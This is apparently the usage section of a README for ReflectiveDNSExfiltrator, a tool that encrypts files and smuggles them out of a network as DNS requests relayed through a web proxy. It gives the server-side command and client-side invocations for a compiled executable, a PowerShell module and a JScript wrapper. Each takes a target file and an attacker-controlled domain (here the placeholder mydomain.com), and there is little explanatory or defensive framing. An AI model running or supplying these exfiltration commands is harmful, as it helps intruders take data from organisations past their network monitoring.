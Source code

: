 Usage
----------------------

***SERVER SIDE***

Start the `reflectiveDnsExfiltrator.py` script passing it the domain name and decryption password to be used:
```
root@kali:~# ./reflectiveDnsExfiltrator.py -d mydomain.com -p password
```

***CLIENT SIDE***

You can **either** use the compiled version, **or** the PowerShell wrapper (*which is basically the same thing*) **or** the JScript wrapper. In any case, the parameters are the same, with just a slight difference in the way of passing them in PowerShell.

1/ Using the C# compiled Windows executable (*which you can find in the `release` directory*):
```
reflectiveDnsExfiltrator.exe <file> <domainName> <password> <webProxy> [t=throttleTime] [r=requestMaxSize] [l=labelMaxSize]
      file:           [MANDATORY] The file name to the file to be exfiltrated.
      domainName:     [MANDATORY] The domain name to use for DNS requests.
      password:       [MANDATORY] Password used to encrypt the data to be exfiltrated.
      webProxy:       [MANDATORY] The proxy server to use as a reflective DNS resolution host, in the form <proxyAddess:proxyPort>.
      throttleTime:   [OPTIONNAL] The time in milliseconds to wait between each DNS request.
      requestMaxSize: [OPTIONNAL] The maximum size in bytes for each DNS request. Defaults to 255 bytes..
      labelMaxSize:   [OPTIONNAL] The maximum size in chars for each DNS request label (subdomain). Defaults to 63 chars.
```
<img src="https://dl.dropboxusercontent.com/s/a0ojh49t72mgcgi/reflectiveDnsExfiltrator_01.jpg?dl=0" width="900">


2/ Using the PowerShell script, well, call it in any of your prefered way (*you probably know tons of ways of invoking a powershell script*) along with the script parameters. Most basic example:
```
c:\ReflectiveDNSExfiltrator> powershell
PS c:\ReflectiveDNSExfiltrator> Import-Module .\Invoke-ReflectiveDNSExfiltrator.ps1
PS c:\ReflectiveDNSExfiltrator> Invoke-ReflectiveDNSExfiltrator -i inputFile -d mydomain.com -p password -s proxyServer:proxyPort -t 500
[...]
```
Check the EXAMPLES section in the script file for further usage examples.
<img src="https://dl.dropboxusercontent.com/s/5tqvt6s89jmyowo/reflectiveDnsExfiltrator_02.jpg?dl=0" width="900">

3/ Using the JScript script, pass it the exact same arguments as you would with the standalone Windows executable:
```
cscript.exe reflectiveDnsExfiltrator.js inputFile mydomain.com password proxyServer:proxyPort
```
Or, with some options:
```
cscript.exe reflectiveDnsExfiltrator.js inputFile mydomain.com password proxyServer:proxyPort t=500
```
<img src="https://dl.dropboxusercontent.com/s/2dhxyp89rhu16g0/reflectiveDnsExfiltrator_03.jpg?dl=0" width="900">
